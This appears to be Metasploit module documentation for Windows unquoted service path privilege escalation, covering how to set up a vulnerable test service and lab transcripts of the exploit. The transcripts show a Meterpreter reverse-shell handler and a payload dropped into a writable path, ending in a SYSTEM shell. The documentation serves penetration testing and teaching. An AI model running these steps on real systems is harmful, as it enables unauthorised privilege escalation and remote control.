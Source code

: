 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

  1.  C:\Program.exe
  2.  C:\Program Files\A.exe
  3.  C:\Program Files\A Subfolder\B.exe
  4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
  5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Subfolder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploits/windows/local/unquoted_service_path```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should either get a shell, or need to start a `multi/handler` and have the target restarted.

## Options

## Scenarios

### Windows 10 (16299) with Service Listed Above

User Shell:

```
msf5 > handler -p windows/meterpreter/reverse_tcp -H 1.1.1.1 -P 8888
[*] Payload handler running as background job 0.
msf5 > 
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49744) at 2020-04-03 21:32:36 -0400
sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
```

Unquoted Service Path Exploit:

```
msf5 > use unquoted_service_path

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/local/unquoted_service_path  2001-10-25       excellent  Yes    Windows Unquoted Service Path Privilege Escalation


[*] Using exploit/windows/local/unquoted_service_path
msf5 exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf5 exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf5 exploit(windows/local/unquoted_service_path) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[*] Found vulnerable service: Some Vulnerable Service - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe (LocalSystem)
[*] Placing C:\Program Files\A Subfolder\B Subfolder\C.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B Subfolder\C.exe...
[-] Unable to write: core_channel_open: Operation failed: Access is denied.
[*] Placing C:\Program Files\A Subfolder\B.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+] Manual cleanup of C:\Program Files\A Subfolder\B.exe is required due to a potential reboot for exploitation.
[+] Successfully wrote payload
[*] Launching service Some Vulnerable Service...
[-] [Some Vulnerable Service] Unhandled error: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-] Unable to restart service.  System reboot or an admin restarting the service is required.  Payload left on disk!!!
[*] Exploit completed, but no session was created.
```

We weren't able to restart the service.  So we'll kick a `multi/handler` and wait for a reboot.

```
msf5 exploit(windows/local/unquoted_service_path) > handler -p windows/meterpreter/reverse_tcp -H 1.1.1.1 -P 4444
[*] Payload handler running as background job 1.
msf5 exploit(windows/local/unquoted_service_path) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2 - Meterpreter session 1 closed.  Reason: Died
[*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49706) at 2020-04-03 21:36:54 -0400
sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

